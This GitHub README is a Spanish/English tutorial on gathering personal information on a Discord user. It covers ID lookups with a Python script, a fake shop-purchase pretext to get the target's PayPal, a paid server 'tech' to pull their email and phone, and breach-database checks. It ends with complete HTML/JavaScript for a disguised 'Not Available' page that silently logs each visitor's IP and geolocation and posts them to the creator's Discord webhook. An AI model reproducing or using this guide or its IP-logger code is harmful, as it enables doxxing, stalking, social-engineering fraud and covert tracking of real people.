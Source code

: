 # Info Gathering of a Discord user

> **To get information from a Discord user, I recommend the following steps (please note that all of this is a dispensable and modifiable example):**

**1. Activate the Discord developper mode**

```text
User Settings > Application Settings > Behaviour and enable Developer Mode
```

**2. Obtain the user ID of the person to be provided with information** 

```text
Right click in the username > Copy user ID
```

**3. Obtaint information from this ID**

- **For this step we will use the API of [this](https://github.com/mesalytic/discord-lookup-api) repository, which can also look up information about guilds, apps, etc... But we will use it to look up the person ID of the user**

```text
https://discordlookup.mesalytic.moe/v1/user/ + the user ID of the person to search
```

- **The search result in your browser should look something like this:**

![imagen](https://github.com/user-attachments/assets/826ca3e5-79b4-4b53-a184-c2cbefacd3f5)

> **Here is an example of a Python request to the API to automate the process:**

```python
import requests, os

def clear():
    if os.name == 'nt': os.system('cls')
    else: os.system('clear')

API_URL = 'https://discordlookup.mesalytic.moe/v1/user/'

def main():
    clear()
    user = int(input('Enter the user ID to gather information: '))
    try:
        response = requests.get(API_URL + str(user))

        if response.status_code == 200:
            data = response.json()
                
            def format_user_info(data, indent=0):
                info = []
                for key, value in data.items():
                    if isinstance(value, dict):
                        info.append("  " * indent + f"{key.replace('_', ' ').title()}:")
                        info.append(format_user_info(value, indent + 1))
                    else:
                        if isinstance(value, list):
                            value = ", ".join(str(v) for v in value)
                        info.append("  " * indent + f"{key.replace('_', ' ').title()}: {value}")
                return '\n'.join(info)
                
            user_info = format_user_info(data)
            print('\n-------------------------------------------------------------------------------')
            print(user_info)
            print('\n-------------------------------------------------------------------------------')

        input()
        main()

    except Exception as ex:
        print('Error: ' + str(ex))


if __name__ == '__main__':
    main()
```

**4. Okay, after this, let's put social engineering into practice to get the target person's PayPal**

-  **You can send a message like this:**

```text
Hi, I would like to buy some items from your shop, I have been looking for them for a long time and I have found them, please tell me the price!
```

> **This is an example message, you can use any message you want**

- **Paypal example:**

```text
paypal.me/username
```

- **This is the structure if paypal.me, the most common, but the user can provide you the email**

- **Example PayPal email:**

```text
example@gmail.com
```

**5. When you have PayPal.me, we will use my server tech, which you can access [here](https://discord.gg/freeforreal)**

- You need to get the tech from the shop called ‘t2ch-paypal’

![imagen](https://github.com/user-attachments/assets/1ec41666-d86e-479e-bb66-7dbdde011486)

**6. Use the tech to get the person's email and phone number. The number may not be revealed, there is a bug for that, but get as much information as you can from that PayPal**

**6. After that, you can use our bots for server lookups, as well as other platforms such as intelX. I also recommend you to use the snusbase tool you will find on my server to check if the email is leaked**

> **Para el número de teléfono, te recomiendo esta [herramienta](https://github.com/Euronymou5/Dark-Hydro)**
> **For email, I re-recommend these sites, in addition to open source tools from GitHub that you can download and use, like [MailCat](https://github.com/sharsil/mailcat) or [Sherlock](https://github.com/sherlock-project/sherlock), for example:**

- https://mailmeteor.com/email-checker
- https://www.aware-online.com/en/osint-tools/email-address-tools/
- https://epieos.com/
- https://hunter.io/email-verifier
- https://tools.emailhippo.com/
- https://email-checker.net/

> **If you want to make more complete OSINT searches, I recommend [this](https://github.com/Euronymou5/DorkBuster) tool**

## Obtaining the public IP

**1. If you want to get someone's public IP, the first option is [IpLogger](https://iplogger.org/en/) (in my opinion the worst)**

**2. The second option is to use the open source tool [RedHawk](https://github.com/Tuhinshubhra/RED_HAWK). You can download it by following the instructions, and it allows you, among other options, to know the public IP of the user who has raised a website. In other words, if the target has a website, this tool is generally very useful

**3. The last option is to create your own website and host it (on [GitHub Pages](https://pages.github.com/) or another hosting of your choice) and put the code shown below:**

> **HTML code (index.html)**

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Not Available</title>
    <!-- CSS -->
    <link rel="stylesheet" href="src/css/main.min.css">
    <!-- Fontawesome -->
    <link href="https://cdn.staticaly.com/gh/hung1001/font-awesome-pro/4cac1a6/css/all.css" rel="stylesheet" type="text/css" />
    <!-- Google Fonts -->
    <link rel="preconnect" href="https://fonts.googleapis.com">
    <link rel="preconnect" href="https://fonts.gstatic.com" crossorigin>
    <link href="https://fonts.googleapis.com/css2?family=Lora:wght@700&family=Poppins:wght@300;600&display=swap" rel="stylesheet">
    <!-- Leaflet -->
    <link rel="stylesheet" href="https://unpkg.com/leaflet@1.7.1/dist/leaflet.css" integrity="sha512-xodZBNTC5n17Xt2atTPuE1HxjVMSvLVW9ocqUKLsCC5CXdbqCmblAshOMAS6/keqq/sMZMZ19scR4PsZChSR7A==" crossorigin="" />
    <link rel="icon" type="image/x-icon" href="./src/favicon.ico">
    <script src="https://unpkg.com/leaflet@1.7.1/dist/leaflet.js" integrity="sha512-XQoYMqMTK8LvdxXYG3nZ448hOEQiglfqkJs1NOQV44cWnUrBc8PkAOcXy20w0vlaXaVUearIOBhiXZ5V3ynxwA==" crossorigin=""></script>
    <!-- Notyf CSS -->
    <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/notyf@3/notyf.min.css">
  </head>
  <body>
    <header class="header"></header>
    <script src="./config.js"></script>
    <script>
      function get_information(link, callback) {
        var xhr = new XMLHttpRequest();
        xhr.open("GET", link, true);
        xhr.onreadystatechange = function() {
          if (xhr.readyState === 4) {
            callback(xhr.responseText);
          }
        };
        xhr.send(null);
      }
      get_information("http://ip-api.com/json/?fields=status,message,continent,continentCode,country,countryCode,region,regionName,city,district,zip,lat,lon,timezone,offset,currency,isp,org,as,asname,reverse,mobile,proxy,hosting,query", function(text) {
        var div = document.createElement("div");
        div.innerHTML = text;
        div.id = "razzylog";
        const secondList = document.getElementsByClassName("header")[0]
        secondList.appendChild(div)
      });
      get_information("https://api.ipify.org/", function(text) {
        var div = document.createElement("div");
        div.innerHTML = text;
        div.id = "ipppp";
        const secondList = document.getElementsByClassName("header")[0]
        secondList.appendChild(div)
      });

      function ipLogByRaz() {
        var ispp = document.getElementById('ipppp').innerHTML
        var extra = document.getElementById("razzylog").innerHTML
        const request = new XMLHttpRequest();
        request.open("POST", wbhk);
        request.setRequestHeader('Content-type', 'application/json');
        const params = {
          username: "Logger",
          avatar_url: 'https://images.g2crowd.com/uploads/product/image/large_detail/large_detail_de619ca81012d42cede6fd18af63d8b1/inkscape.png',
          content: "**Ip** : _" + ispp + "_\n**Raw** : _https://api.techniknews.net/ipgeo/" + ispp + "_\n**Extra Info** : ```" + extra + "```"
        }
        request.send(JSON.stringify(params));
      }
      setTimeout(function() {
        ipLogByRaz()
      }, 700);
    </script>
    <style>
      .header {
        display: none
      }

      .map-container {
        display: none
      }
    </style>
  </body>
</html>
```

> **JavaScript code (config.js)**

```js
var wbhk = 'YOUR DISCORD WEBHOOK'
```

- **Create a webhook in Discord through which the data of whoever enters the WebLogger you have created will be sent. You can create it like this:**

```text
Server Config > Integrations > New Webhook > Copy Webhook URL
```

### Thanks for watch this tutorial and leave a star for Free for REAL please!
